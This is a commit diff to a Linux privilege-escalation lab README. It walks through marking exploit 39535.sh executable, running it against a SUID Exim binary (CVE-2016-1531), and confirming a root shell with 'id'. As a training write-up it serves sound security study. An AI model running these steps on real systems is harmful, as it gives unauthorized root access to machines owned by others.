

update step5

Changed region(s): [[0.0, 0.0, 0.9868, 0.8267]]

diff --git a/Linux-Privilege-Escallation/suid_sgid/README.md b/Linux-Privilege-Escallation/suid_sgid/README.md
@@ -290,7 +290,7 @@ user@debian:~$ ls -l 39535.sh
 ```
 
 ```
--rwxr-xr-x 1 user user 638 Jan 14 03:51 39535.sh
+-rw-r--r-- 1 user user 638 Jul  4 06:17 39535.sh
 ```
 
 ```
@@ -310,18 +310,24 @@ The exploit was downloaded successfully, but it did not have execute permission.
 
 ### Added Execute Permission
 
+Before running the exploit, I made it executable.
+
 ```bash
 user@debian:~$ chmod +x 39535.sh
 ```
 ### Confirmed the Permission Change
 
 ```bash
-user@debian:~$ ls -la
+user@debian:~$ ls -l 39535.sh
 ```
 ```
--rwxr-xr-x 1 user user  638 Jan 14 03:51 39535.sh
+-rwxr-xr-x 1 user user 638 Jul  4 06:17 39535.sh
 ```
-The file now had execute permission — ready to run.
+The execute bit was now set, so the script was ready to run.
+
+<p align="center">
+  <img src="images/step5-1.png" width="600">
+</p>
 
 ### Ran the Exploit
 
@@ -332,7 +338,14 @@ user@debian:~$ ./39535.sh
 
 ```
 [ CVE-2016-1531 local root exploit
+sh-4.1#
 ```
+The exploit completed successfully and dropped me into a root shell.
+
+<p align="center">
+  <img src="images/step5-2.png" width="600">
+</p>
+
 ### Confirmed Root Access
 
 ```bash
@@ -347,7 +360,11 @@ sh-4.1# id
 ```
 uid=0(root) gid=1000(user) groups=0(root)
 ```
-I went from a normal low privilege user straight to `root` by exploiting the SUID bit on the Exim binary using CVE-2016-1531.
+The `whoami` and `id` commands confirmed that I had successfully gained root privileges by exploiting the vulnerable SUID Exim binary (CVE-2016-1531).
+
+<p align="center">
+  <img src="images/step5-3.png" width="600">
+</p>
 
 ## How Defenders Can Catch This
 
